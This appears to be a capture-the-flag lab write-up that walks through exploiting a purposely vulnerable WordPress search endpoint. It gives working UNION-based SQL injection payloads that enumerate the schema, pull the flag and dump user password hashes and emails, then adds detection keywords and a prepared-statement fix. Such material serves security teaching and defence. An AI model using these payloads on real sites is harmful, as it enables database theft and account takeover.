# Exploitation Documentation

## Back to README
→ [Go to README.md](../README.md)

## Vulnerability Overview

- **Name:** UNION-Based Unauthenticated REST API SQL Injection

- **CVE:** This is a custom vulnerability

- **Severity:** This vulnerability is dangerous because it allows an unauthenticated attacker to execute arbitrary SQL queries against the backend database. This results in the complete compromise of data confidentiality and allows the theft of user password hashes, email addresses, and the hidden flag.

- **Attack Vector:** This vulnerability exists in the custom REST API endpoint /ctf/v1/search registered in the active functions.php file. The q parameter is directly concatenated into a SQL query without sanitization or parameterization, allowing malicious SQL commands to be injected via a standard HTTP GET request.

## Exploitation Steps

### 1. Reconnaissance
**Tools:** Web Browser, Developer Tools (Network Tab), or curl

### Navigate To the WordPress Webpage

Open a web browser and visit ```http://<http://YOUR_WEBSERVER_IP>```. You will be greeted by the search box.



### Analyze traffic via the Developer Tools

Access the Developer Tools by right-clicking and selecting inspect, or press ```F12``` on your keyboard. Be sure to witch to the Network tab after the menu is opened.




### Trigger the Endpoint

Type any search term such as a username (e.g., "admin") into the search box and press ```Enter```.

### Observe the Request

Notice the XHR request sent to: ```http://<YOUR_WEBSERVER_IP>/index.php?rest_route=/ctf/v1/search&q=test```.

Expected output:
- You should see that user information has populated beneath the search box



### Test For SQL Injection Capabilities

Try searching for a single quote ```(')``` in the search box.

Expected output:
- The application should return a JSON error or a raw HTML error indiating a syntax error in the database query. This information confirms that the input is interacting directly with the SQL interpreter




### 2. Exploitation

Enumerate the database structure and extract the hidden flag using UNION-Based SQL Injection techniques. Since the injection occurs inside a SELECT * FROM wp_users query, you must use a UNION SELECT and match the column count of the wp_users table.

- Standard WordPress installations use **10 columns** for this table!

### Enumerate Tables

Information_schema is a standardized, read-only view of metadata about the database objects within a system.  It acts as a central catalog containing information about tables, columns, views, constraints, stored procedures, and other database components.

In order to use a UNION SELECT, you must match the column count of the table being selected.

To begin, start by interating from 1 up to the correct number of columns present in wp_users.

```bash
' UNION SELECT null FROM information_schema.tables WHERE table_schema=database() -- -
```



Continue until the number of columns is successfully found. You will know you have found the correct number when an additional entry full of "null" appears.

```bash
' UNION SELECT null, null, null FROM information_schema.tables WHERE table_schema=database() -- -
```

Once the correct number of columns has been discovered, proceed to the next step.

In the search box, deliver the next payload:

```bash
test' UNION SELECT 1, table_name, 3, 4, 5, 6, 7, 8, 9, 10 FROM information_schema.tables WHERE table_schema=database() -- -
```

Expected result:

- The JSON response lists all tables in the database. Look for any unordinary tables!





### Enumerate Columns

Now that we have discovered a table of interest, we need to know the column names inside of it.

In the search box, deliver the payload:

```bash
test' UNION SELECT 1, column_name, 3, 4, 5, 6, 7, 8, 9, 10 FROM information_schema.columns WHERE table_name='wp_flags' -- -
```

Expected result:

- A list of the columns ```id``` and ```flag```.





### Exfiltrate Data

Now that we have the columns from the wp_flags table, we should extract any values it contains.

In the search box, deliver the payload:

```bash
test' UNION SELECT 1, flag, 3, 4, 5, 6, 7, 8, 9, 10 FROM wp_flags -- -
```

Expected result:

- The application returns the flag: ```flag{shattered_by_maelstrom}```!



### Post-Exploitation

With the ability to read the database, an attacker can also extract the password hashes for administrator users. 

In the search box, deliver the payload:

```bash
test' UNION SELECT 1, user_login, user_pass, user_email, 5, 6, 7, 8, 9, 10 FROM wp_users -- -
```



Expected output:
- This reveals the hashes for users like ```johnny_silverhand```, potentially allowing for offline cracking and full administrative takeover of the WordPress panel.

## Defensive Considerations

### Detection

The Blue Team can detect this attack by analyzing the Nginx Access Logs (/var/log/nginx/access.log). Inside access.log, look for GET requests to /index.php?rest_route=/ctf/v1/search containing SQL keywords encoded in the URL parameters.

Examples:
- UNION / %20UNION
- SELECT / %20SELECT
- information_schema
- wp_flags

A high volume of requests to the search endpoint in a short period is indicative of automated enumeration, or a spike in 500 Internal Server Errors is indiciative of failed injection attempts.

### Mitigation

The primary fix for this vulenrability is to patch the vulnerable code that allows query concatenation. This can be found in the functions.php file and must be patched to use WordPress's built-in prepared statements.

Making these edits will remove the vulnerability and block the Red Team from enumerating the database and submitting the flag:

```bash
function ctf_sqli_search($request) {
    global $wpdb;
    $term = $request['q'];

    // -----------------------------------------------------------------
    // SECURITY PATCH APPLIED
    // -----------------------------------------------------------------
    // OLD VULNERABLE CODE:
    // $query = "SELECT * FROM wp_users WHERE user_login LIKE '%" . $term . "%'";
    
    // NEW SECURE CODE:
    // We use $wpdb->prepare to safely handle the input.
    // %s is the placeholder for a string.
    // The wildcards ('%') are attached to the variable, not the SQL string.
    
    $query = $wpdb->prepare(
        "SELECT * FROM wp_users WHERE user_login LIKE %s",
        '%' . $wpdb->esc_like($term) . '%' 
    );

    // -----------------------------------------------------------------

    $results = $wpdb->get_results($query);
    return rest_ensure_response($results);
}
```

## Back to README
→ [Go to README.md](../README.md)
